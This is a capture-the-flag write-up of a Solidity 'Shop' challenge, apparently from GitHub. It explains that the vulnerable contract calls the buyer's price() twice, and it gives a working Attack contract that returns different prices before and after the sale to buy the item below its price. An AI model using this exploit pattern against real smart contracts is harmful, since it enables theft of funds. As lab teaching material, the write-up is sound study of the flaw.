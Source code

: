 Objective:
Buy the item from the Shop contract for less than 100.

<details>
<summary>See the original contract</summary>
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;
    function buy() public {
        Buyer _buyer = Buyer(msg.sender);
        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```solidity

</details>

Expalanation:
```
if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
```
If we check this if condition we clearly see that the price funtion is called twice, so what we can do is that during the first call we can return 100 and during the second call we can return a lesser value and this we can check with the isSold function that we make in our helper contract.

Solution:
Below is the helper contract.
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Shop {
    function buy() external;
    function isSold() external view returns (bool);

}

contract Attack {
    Shop shop;
   constructor (address _target) {
    shop = Shop(_target);
   }
   function price() external view returns (uint256) {
        return shop.isSold() ? 1 : 100;
    }

    function attack() external {
        shop.buy();
    }
}
```
After deploying this helper contract call the attack function after which the level will be cleared.

Key Takeaways:
The contract thinks that the price() will be constant but as it is called twice we switch its behaviour between the calls.
